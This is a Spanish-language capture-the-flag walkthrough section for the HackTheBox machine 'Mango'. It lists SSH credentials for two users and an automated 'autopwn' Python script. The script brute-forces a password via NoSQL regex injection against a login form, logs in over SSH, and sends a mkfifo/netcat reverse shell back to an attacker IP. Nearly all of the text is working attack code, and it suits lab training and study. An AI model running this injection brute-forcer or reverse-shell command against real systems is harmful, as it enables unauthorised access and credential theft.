 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con ssh {-}

```bash
ssh admin@10.10.10.162
Password: t9KcS3>!0B#2

ssh mango@10.10.10.162
Password: h3mXK8RhU~f{]f5H
```

Hemos ganado accesso al systema como el usuario **mango**.
Vemos que la flag esta en el directorio `/home/admin` tenemos que pasar al usuario admin con el comando `su admin`.

### Autopwn completo para el usuario mango {-}

```python
#!/usr/bin/python3

import pdb # Debugging
from pexpect import pxssh
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters + string.digits + string.punctuation
lport = 443

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[mango]")
    password = ""

    for x in range(0, 20):
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': 'mango',
                'password[$regex]': f"^{re.escape(password + character)}",
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

    return password

def sshConnection(username, password):

    s = pxssh.pxssh()
    s.login('10.10.10.162', username, password)
    s.sendline("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f")
    s.prompt()
    s.logout()

if __name__ == '__main__':

    password = makeRequest()

    try:
        threading.Thread(target=sshConnection, args=('mango', password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```